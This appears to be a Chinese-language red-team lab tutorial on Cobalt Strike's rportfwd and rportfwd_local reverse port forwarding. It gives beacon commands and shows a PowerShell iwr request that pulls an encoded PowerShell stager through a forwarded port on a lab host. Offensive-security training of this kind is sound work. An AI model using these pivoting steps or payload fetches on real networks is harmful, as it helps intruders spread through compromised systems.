 
查看转发成功
```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```


现在访问10.10.17.231:8080就是相当于访问10.10.5.120:80
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```


停止转发命令
```
rportfwd stop 8080
```


需要注意：

1. Beacon 的反向端口转发始终将流量通过隧道传输到 Team Server，而 Team Server 将流量发送到其预期机器，所以不应该被用来在单个机器之间转发流量。
2. 流量在 Beacon 的 C2 流量中进行隧道传输，而不是通过单独的套接字，并且也可以通过 P2P 链接工作。
3. 无需成为本地管理员即可在高端口上创建反向端口转发。


## rportfwd_local

Beacon 也有一个rportfwd_local命令。```rportfwd```将流量传输到 Team Server，```rportfwd_local```将传输到运行 Cobalt Strike 客户端的机器。

1. 在kali开启一个python的web服务器

```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```

2. 在kali开启一个CS的客户端,并且进行流量转发
```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```

3. 在另外一台机器上访问wkstn-1:8080，访问到了kali上python开的web服务
```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test
```
